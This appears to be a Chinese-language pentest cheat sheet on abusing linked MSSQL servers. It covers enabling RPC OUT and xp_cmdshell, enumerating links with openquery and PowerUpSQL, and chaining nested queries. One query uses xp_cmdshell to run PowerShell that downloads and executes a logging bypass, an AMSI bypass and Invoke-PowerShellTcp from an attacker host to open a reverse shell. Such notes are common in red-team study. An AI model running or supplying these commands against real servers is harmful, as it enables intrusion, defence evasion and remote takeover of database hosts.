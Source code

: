 
## 启用RPC OUT和xp_cmdshell

```
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"

Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"

Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""

Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```


## 在HeidiSQL客户端操作

找当前链接下的链接
```
select * from master..sysservers
```

枚举指定链接下面的连接
```
select * from openquery("192.168.23.25",'select * from master..sysservers')
```

 嵌套链接，执行sql语句
```
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
```

获取一个rev shell
```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell ''''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcp.ps1)"'''''')')
```


# MSSQL（CRTO）

使用工具：[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

枚举某个实例下的链接
```
powershell Get-SQLQuery -Instance "sql" -Query "SELECT * FROM master..sysservers"
```

查找MSSQL实例的cmdlets
```
Get-SQLInstanceDomain
Get-SQLInstanceBroadcast
Get-SQLInstanceScanUDP
```
